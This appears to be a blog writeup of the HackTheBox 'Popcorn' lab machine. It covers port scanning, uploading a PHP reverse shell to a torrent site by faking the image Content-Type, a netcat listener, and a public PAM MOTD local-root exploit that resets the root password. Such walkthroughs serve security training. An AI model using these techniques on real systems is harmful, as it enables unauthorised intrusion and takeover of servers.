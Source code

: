 ```yaml
---
layout: post
title: HackTheBox Popcorn (10.10.10.6) Writeup
description: >
  Hackthebox Popcorn Writeup
image: /assets/img/popcorn.png
noindex: false
---
```


**NMAP:**
```
root@37f72653a832:/# nmap -sC -sV -T4 -p- 10.10.10.6
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-14 23:52 UTC
Nmap scan report for 10.10.10.6
Host is up (0.019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.63 seconds
```
**GOBUSTER:**
```
/index (Status: 200)
/index.html (Status: 200)
/test (Status: 200)
/test.php (Status: 200)
/torrent (Status: 301)
/rename (Status: 301)
```
Navigating to `/torrent` reveals a torrent hoster. Here I can create an account. Once logged in I can upload a torrent file. 

Now once the torrent file is uploaded I can click on `Edit this torrent` to upload a screenshot. This is where I will upload a reverse php shell and will intercept the request using Burpsuite to bypass the upload filter. 

I change the Content type of the request from `application/octet-stream` to `image/jpeg` and then forward the request. I get a success message that file was uploaded

![dcdc250d1884a33d561563ed452b0bef.png](../../resources/27d81cfbbd854d2a88f9516ee9f3f74c.png)

Now going back to the torrent uploader the screenshot section now displays a messsage like `Image File Not Found!`. Clicking on the message triggers the shell and opens up the reverse connection. I get a shell as `www-data`
```
root@37f72653a832:/# nc -lvnp 9999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:53362.
whoami
www-data
```
From here I can read the `user.txt` flag
```
www-data@popcorn:/home/george$ cat user.txt
5e36a929398ecc5d5c110f2d865cf136
```
After doing some enumeration around the box I find that it is running an outdated version of PAM. I confirm this using the command below
```
www-data@popcorn:/home/george/.cache$ dpkg -l | grep pam
dpkg -l | grep pam
ii  libpam-modules                      1.1.0-2ubuntu1                    Pluggable Authentication Modules for PAM
ii  libpam-runtime                      1.1.0-2ubuntu1                    Runtime support for the PAM library
ii  libpam0g                            1.1.0-2ubuntu1                    Pluggable Authentication Modules library
ii  python-pam                          0.4.2-12ubuntu3                   A Python interface to the PAM library
```
Checking Exploit Database there is [this exploit](https://www.exploit-db.com/exploits/14339) that can be used to escalate privileges.
```
www-data@popcorn:/dev/shm$ bash 14339.sh
bash 14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/dev/shm#
```
From here I can read the `root.txt` file
```
root@popcorn:~# cat root.txt
cat root.txt
f122331023a9393319a0370129fd9b14
```


